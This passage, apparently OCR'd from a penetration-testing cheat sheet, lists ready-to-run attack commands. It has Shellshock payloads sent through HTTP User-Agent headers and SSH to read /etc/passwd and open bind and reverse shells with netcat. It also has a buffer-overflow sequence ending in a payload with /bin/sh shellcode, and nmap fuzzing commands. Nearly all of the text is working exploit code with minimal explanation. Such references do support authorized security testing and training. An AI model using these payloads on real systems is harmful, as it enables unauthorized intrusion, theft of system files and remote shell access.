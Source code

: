     -   git clone <https://github.com/nccgroup/shocker>

    -   ./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c
        /cgi-bin/status --verbose

    -   Shell Shock SSH Forced Command  
        Check for forced command by enabling all debug output with ssh  
        ssh -vvv  
        ssh -i noob noob@$ip '() { :;}; /bin/bash'

    -   cat file (view file contents)  
        echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {
        :;}; echo \\$(&lt;/etc/passwd)\\r\\nHost:
        vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

    -   Shell Shock run bind shell  
        echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {
        :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:
        vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

    -   Shell Shock reverse Shell  
        nc -l -p 443

-   Buffer Overflow Exploits

    -   Pass 1000 A’s as a parameter  
        ./r00t $(python -c 'print "A" \* 1000')

    -   Random Pattern Create  
        /usr/share/metasploit-framework/tools\# ruby pattern\_create.rb
        1000

    -   Determine Pattern offset  
        ruby pattern\_offset.rb 0x6a413969

    -   Pass shell with offset value  
        env - ./r00t $(python -c 'print "A"\*268 +
        "\\x80\\xfc\\xff\\xbf" + "\\x90"\*16 +
        "\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"')  
        \# id

    -   From Fuzzing to Zero Day  
        https://blog.techorganic.com/2014/05/14/from-fuzzing-to-0-day/

-   Nmap Fuzzers:

    -   NMap Fuzzer List  
        [*https://nmap.org/nsedoc/categories/fuzzer.html*](https://nmap.org/nsedoc/categories/fuzzer.html)

    -   NMap HTTP Form Fuzzer  
        nmap --script http-form-fuzzer --script-args
        'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}'
        -p 80 $ip

    -   Nmap DNS Fuzzer  
        nmap --script dns-fuzz --script-args timelimit=2h $ip -d
